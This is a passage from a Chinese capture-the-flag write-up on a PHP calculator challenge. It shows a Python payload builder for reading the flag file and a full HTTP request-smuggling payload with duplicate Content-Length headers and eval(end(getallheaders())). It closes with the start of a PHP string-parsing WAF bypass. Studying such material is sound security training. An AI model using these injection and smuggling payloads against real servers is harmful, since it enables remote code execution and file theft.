 ```python
        return "("+topayload(meth)+")("+(para)+")"
# print(tomethod("var_dump",tomethod("scandir","/"),False))
print(tomethod("var_dump",tomethod("file","/f1agg"),False))
# print(tomethod("file_get_contents","/f1agg"))

```





#### 解法二 HTTP走私

http走私请看:https://paper.seebug.org/1048/



这题php禁用了` $blacklist = [' ', '\t', '\r', '\n','\'', '"', '反引号', '\[', '\]','\$','\\','\^'];`

apache再禁用了字母和不可打印字符

后来看别人的wp知道了,虽然服务器返回400,但是还会将请求转发给后端,标准的http走私

![image.png](https://i.loli.net/2019/10/18/9YgzckxODPiNe6C.png)

真几把神奇，刚看到http走私的时候我还以为是前后端对content-type的解析不同

结合getallheads来绕过php字符限制



最后payload:

```
POST /calc.php?num=eval(end(getallheaders())); HTTP/1.1
Host: node3.buuoj.cn:28023
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Referer: http://node3.buuoj.cn:28023/
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 422
Content-Length: 0
A: var_dump(file_get_contents("/f1agg"));


```





#### 解法三 利用php字符串解析特性绕过apache waf



php字符串解析特性

![](https://image.3001.net/images/20190904/1567560438_5d6f12f680afe.png!small)
